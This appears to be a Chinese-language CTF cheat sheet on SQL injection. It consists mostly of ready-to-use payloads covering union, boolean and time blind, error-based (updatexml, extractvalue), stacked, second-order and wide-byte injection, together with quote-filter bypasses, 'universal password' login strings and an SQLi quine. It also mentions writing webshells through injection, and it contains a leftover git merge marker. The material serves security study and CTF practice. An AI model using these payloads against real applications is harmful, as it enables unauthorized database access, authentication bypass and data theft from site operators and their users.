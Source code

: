 ## 常见

| 考点                            |                                                                            |
| ------------------------------- | -------------------------------------------------------------------------- |
| 0.测试                          | 1' order by 1 -- [123456] 测试                                             |
| 1.联合查询                      | union select group_concat(username,0x7e,password),2,3 from...，order by... |
| [2.布尔盲注](#2布尔盲注)        | if(ascii(substr(database(),1,1))>100,1,0)                                  |
| [4.报错注入](#4报错注入)        |                                                                            |
| [5.堆叠注入](#5堆叠注入)        | 使用 prepare 绕过                                                          |
| 二次注入                        |
| [过滤了单引号](#过滤了单引号)   |
| [bypass](bypass_.md#sql-bypass) |

注入格式

| Column                                        | 测试 1                                                                                                                  | 测试 2 |
| --------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------- | ------ |
| ?id=1''                                       | ?id='1'                                                                                                                 |        |
| $id                                           | 1''                                                                                                                     | '1'    |
| $id 结果                                      | 正常                                                                                                                    | 正常   |
| '$id'                                         | '1'''                                                                                                                   | ''1''  |
| '$id'结果                                     | 正常                                                                                                                    | 错误   |
| `select * from user where username = '$name'` | 密码是 md5 方式, `-1' union select 1,'admin','202cb962ac59075b964b07152d234b70'#`                                       |
| \`uid\` in('1'); <br> \`uid\` in($id);        | 后面会补括号 <br> `1) or updatexml(1,concat(0x7e,version(),0x7e),1`<br>`1 or updatexml(1,concat(0x7e,version(),0x7e),1` |

> > > > > > > fb0c8d90748fbc0f5a438e9bdd052281643010f0

### 2.布尔盲注

```sql
if(ascii(substr(database(),1,1))>100,1,0)
布尔盲注不需要闭合
SELECT password from user WHERE id = ${id}
${id} = if(ascii(substr((select flag from flag),{},1))>{},1,2)
```

### 4.报错注入

```sql
(updatexml(1,concat(0x7e,(select user()),0x7e),1)); 大整数报错等
'or updatexml(1,concat(0x7e,user()),1)#
'or updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1)),1),1)#
'or updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='flag_head')),1),1)#
'or updatexml(1,concat(0x7e,(select group_concat(flag_h1) from flag_head)),1),1)#
--- 见 web_sql_00normal_04_error_inject.py
(1). 通过floor报错 能显示64字符, test1名称里会多出1，去掉改为test
(2). 通过updatexml报错 32字符 只有在payload返回的不是xml格式才会生效
(3). 通过ExtractValue报错
?username=admin'or(extractvalue(1,concat(0x7e,user(),0x7e)))%23&password=21
```

### 5.堆叠注入

```sql
select * from users where id= 1;create table test like users;
-1';set @t=concat('sel','ect flag from `1919810931114514`');prepare te from @t;execute te;#
```

### 二次注入

`[RCTF2015]EasySQL`
注册以下用户

```sh
admin"
admin'
admin')
admin")
```

admin" 在修改密码时报错，说明"闭合 二次注入，猜测 sql

```sql
update 表 set password='xxx' where username="xx" and pwd='xx'
```

## 常见的 SQL 注入考点 CTF-123458

```bash
3.时间盲注: if(ascii(substr(database(),1,1))>100,sleep(5),1)

6.二次注入:通过在一处输入点构造sql语句，在第二处触发
        -- 1.登陆:邮箱。密码 2.登陆后:限制用户名,显示用户名 -- 可能二次注入 -- 网鼎杯2018unfinish
7.宽字节注入:通过数据库编码错误来绕过字符转义
        sql = 'select *from user where id=\''.$id.'\'';
        GBK两个字符为一个汉字, 输入宽字符%df使反斜杠和这个%df形成一个汉字
        GET方式 id=1%df' union select 1,database(),3%23
        POST方式-没有url解码 username=1汉') or 1=1#
                -配合盲注完成
9.sql注入读写文件:通过sql注入写入webshell,或直接读取服务器文件
10.sql注入提权:通过sql注 入获取服务器权限
- 读取数据 见0x10
- 绕过字符  /**/替换空格, 用<a>无意义填充过waf , 看bypass
        ()替换空格or(1)=(1) , or('1')='1'
load_file
head 注入 useragent进行报错注入
MySQL查询的按位比较 -- CTFshow web1, [GYCTF2020]Ezsqli

SQLi-Quine  $row['password'] === $password, 输入的password值等于查询出来的值
        http://y24.top/go?_=06d458b6b3aHR0cHM6Ly93d3cuc2h5c2VjdXJpdHkuY29tL3Bvc3QvMjAxNDA3MDUtU1FMaS1RdWluZQ%3D%3D
        https://www.shysecurity.com/post/20140705-SQLi-Quine
        'UNION/**/SELECT/**/REPLACE(REPLACE('"UNION/**/SELECT/**/REPLACE(REPLACE("%",CHAR(34),CHAR(39)),CHAR(37),"%")/**/AS/**/a#',CHAR(34),CHAR(39)),CHAR(37),'"UNION/**/SELECT/**/REPLACE(REPLACE("%",CHAR(34),CHAR(39)),CHAR(37),"%")/**/AS/**/a#')/**/AS/**/a#
```

## Other

```sh
# https://www.bilibili.com/video/BV1ZT4y1o7H8  --1:10:31
"SELECT * FROM user WHERE username ='" .$username. "' AND password = '" .$password. "'"
username=admin\&password=||1=1#
# 关于 "||"
0||1=1, 0||0=0
# rlike(或者reexp)
模糊匹配,可以与正则匹配模式一起使用.如果未指定^xxxx$只要模式在指定字符串中就可以被匹配到
注意: SQL模糊匹配是不区分大小写的, 需要另外写爆破大小写脚本。
name= 'safasfascyxqagasgasfasfas'
name rlike cyxq
username=admin\&password=||(password)rlike(0x{})#
```

1.  在用户名或密码处加引号测试

        http://[极客大挑战 2019]EasySQL/check.php?username=admin'&password=11
        报错 猜测  select * from users where name='$username' and passwd='$password';

构造 username=admin or 1=1 和 passwd=admin or 1=1 即可

```sql
payload：?username=admin' or '1'='1&password=123' or '1'='1
替换后:   name='admin' or '1'='1' and passwd='123' or '1'='1';
```

### 过滤了单引号

```sql
select * from users where  username= '$_POST["username"]' and password = '$_POST["username"]';
```

- username = <span class="red">1\\</span>
- password = <span class="red"> or 1#</span>

```sql
select * from users where  username= '1\' and password =' or 1#
```

### 万能密码

有时不能为空（过滤了空字符）

```sql
1' or 1=1 #
uname=1' or 1=1 #&passwd=any
uname=1' or '1=1'#&passwd=any
select * from user where uname = '222' and upass = '222'
select * from user where uname = '222' and upass = '222' or 1=1
select * from user where uname = '222' and upass = '222' or '1=1#'
select * from user where uname = '222' and upass = '222' or '1'='1'
```

fuzz 后能用

```python
/*!union*/ 绕过union过滤
"0^" + "(ascii(substr((select(flag)from(flag)),{0},1))>{1})".format(i,mid)
# '0^(ascii(substr((select(flag)from(flag)),1,1))>94)'
```

<style>
 .red{color:red;}
</style>
